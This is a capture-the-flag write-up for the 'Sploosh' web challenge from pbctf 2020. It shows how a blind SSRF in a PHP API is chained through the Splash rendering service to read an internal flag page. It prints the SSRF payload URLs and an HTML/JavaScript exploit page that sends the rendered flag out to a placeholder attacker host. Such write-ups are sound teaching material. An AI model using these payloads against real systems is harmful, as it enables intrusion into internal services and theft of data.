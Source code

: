 ## Sploosh - Web challenge - pbctf 2020
## Author: p4w@beerpwn
### Twitter: https://twitter.com/p4w16

## TL;DR
This challenge is about exploiting an __SSRF__ vulnerability along with __Splash__ (javascript rendering service).

## Challenge description
![img desc](screen/desc.png)


## Solution
Once connected to the challenge, the index page show a link where it is possible to download the source code.
Here it follow the docker configuration file for the challenge:

![img desc](screen/docker_compose.png)

The application is pretty simple, basically we have 3 file: __index.php__, __flag.php__ and __api.php__.
The __index.php__ page doesn't contain anything important, so I'll only show the __api.php__ and __flag.php__ pages.
<br>

This is the source for __api.php__
![img desc](screen/api.png)

and this the source code of __flag.php__
![img desc](screen/flag_source.png)

As we can see in __api.php__, it's possible to control the `url` GET parameter and if it is passed, then script will execute `file_get_contents` with the `http` wrapper to the host `splash`.
With a bit of googling it's possible to discover the service behind the scene. The repository of the splash project can be found here
* https://github.com/scrapinghub/splash

As it is possible to observe that to get the flag it's necessary to request the `flag.php` file, but the flag will be printed out only if the remote address that is requesting the resource is __172.16.0.13__ or __172.16.0.14__. At this point and considering what we have I start to thinking that I need some kind of __SSRF__ to retrieve the flag. Trigger the __SSRF__ is pretty easy in this situation, since no check is made on the `url` parameter, we can just pass arbitrary address in it. Problem is that the __SSRF__ is blind, I'm going to show what I mean with some screen.

![img desc](screen/google_req.png)

Here for example I used google.com domain as endpoint, but in the response we don't have all the page contents retrieved from google, instead only the geometry is present. At this point I start to looking more closely to the __Splash__ documentation (https://splash.readthedocs.io/en/stable/api.html).
Also referring to the `api.php` resource, it's possible to notice that the `url` parameter is __urlencoded__ before concatenation, this stop us to directly inject additional parameters on the query itself (`& -> %26`).
By reading the documentation we can notice that the __Splash API__ can be used along with many parameters. The first one that caught my attention was the `lua_source` parameter that can be passed to the `/execute` API endpint to run custom lua script. Searching more information about that I discover this article https://paper.seebug.org/354/ that explain how __Splash__ works. One thing that tell us is that we can't actually run arbitrary lua code since is sand-boxed for security reason.
Before going more in deep on the __Splash API__, let's see how it is possible to full control a request over the splash endpoint by exploiting the `url` parameter. The trick is simple we can just pass a full request to the internal address:
* `url=http://172.16.0.13:8050/render.html%3furl=http://example.com/`

With this payload it is possible to force the the application to make a request to the `render.html` API endpoint that will generate another request to the domain `example.com`. Let's verify that:

![img desc](screen/webhook_req.png)
![img desc](screen/webhook.png)

Works fine, at this point I knew that I was able to fully control a request to the splash endpoint along with any parameter I want to use. The first idea was to use the `lua_source` parameter to inject some lua script to leak the flag. I tried that solution, unfortunately I fail so I start to read more documentation.
The __Splash__ service have many endpoints that can be used to fetch pages such as `/render.jpeg`.

![img desc](screen/render_jpeg_docs.png)

At this point I start thinking for a chain that can be use to retrieve the flag by using this functionality. The basic idea that I had was to embed an `<img>` tag in a page controlled by me and pointing to the `/render.jpeg` endpoint with the `url` parameter `http://172.16.0.14/flag.php`. After that I can leak the contents with some JavaScript code.

This is the code I used to do that:

```
<html>
  <body>
    <script>
      function exfil(){
        var c = document.getElementById("myCanvas");
        var ctx = c.getContext("2d");
        var img = document.getElementById("preview");
        ctx.drawImage(img, 30, 30);
        var i = new Image();
        i.src="http://<yourdomain-here>:9999/exfil?data="+btoa(c.toDataURL());
      }
    </script>
    <img id="preview" src="http://172.16.0.13:8050/render.jpeg?url=http://172.16.0.14/flag.php" onload="exfil()">
    <canvas id="myCanvas" />
  </body>
</html>
```

To make this work, I just play a bit with the `api.php` page and come up with this payload:
```
GET /api.php?url=http://172.16.0.13:8050/render.html%3furl=http://<yourdomain-here>:8000/exploit.php HTTP/1.1
...
```
basically the first request goes to the `/render.json` endpoint that is used inside the `api.php`, then a request for `/render.html` is generated along with the `url` parameter pointing to my domain where I hosted the page showed before.
You can look the exploit working during the CTF in the screenshots below.

![img desc](screen/SSRF.png)
![img desc](screen/recv_connection.png)
![img desc](screen/flag_recv.png)

After that we can just decode the base64 and we get the flag rendered in a jpeg file!

![img desc](screen/flag.png)
